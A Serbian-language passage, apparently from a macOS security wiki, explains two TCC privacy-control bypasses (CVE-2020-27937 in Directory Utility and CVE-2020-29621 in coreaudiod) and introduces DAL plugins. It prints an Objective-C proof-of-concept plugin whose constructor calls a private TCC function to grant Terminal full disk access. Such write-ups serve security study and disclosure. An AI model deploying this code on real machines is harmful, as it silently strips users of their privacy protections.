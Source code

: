 Aplikacija `/System/Library/CoreServices/Applications/Directory Utility.app` imala je privilegiju **`kTCCServiceSystemPolicySysAdminFiles`**, učitavala je dodatke sa ekstenzijom **`.daplug`** i **nije imala ojačan** runtime.

Da bi se iskoristio ovaj CVE, **`NFSHomeDirectory`** je **promenjen** (zloupotrebljavajući prethodnu privilegiju) kako bi se moglo **preuzeti korisničku TCC bazu podataka** zaobišavajući TCC.

Za više informacija pogledajte [**originalni izveštaj**](https://wojciechregula.blog/post/change-home-directory-and-bypass-tcc-aka-cve-2020-27937/).

### CVE-2020-29621 - Coreaudiod

Binarni fajl **`/usr/sbin/coreaudiod`** imao je dozvole `com.apple.security.cs.disable-library-validation` i `com.apple.private.tcc.manager`. Prva dozvola omogućavala je **ubacivanje koda**, a druga mu je dala pristup za **upravljanje TCC**.

Ovaj binarni fajl je omogućavao učitavanje **dodatnih plug-ina** iz foldera `/Library/Audio/Plug-Ins/HAL`. Stoga je bilo moguće **učitati dodatak i zloupotrebiti TCC dozvole** pomoću ovog PoC-a:

```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");

CFStringRef bundleID = CFSTR("com.apple.Terminal");
CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
SecRequirementRef requirement = NULL;
SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
CFDataRef requirementData = NULL;
SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);

TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {

add_tcc_entry();

NSLog(@"[+] Exploitation finished...");
exit(0);
```

Za više informacija pogledajte [**originalni izveštaj**](https://wojciechregula.blog/post/play-the-music-and-bypass-tcc-aka-cve-2020-29621/).

### Dodaci sloja apstrakcije uređaja (DAL)

Sistemski programi koji otvaraju video strim preko Core Media I/O (aplikacije sa **`kTCCServiceCamera`**) učitavaju **u proces ove dodatke** smeštene u `/Library/CoreMediaIO/Plug-Ins/DAL` (neograničeno SIP-om).
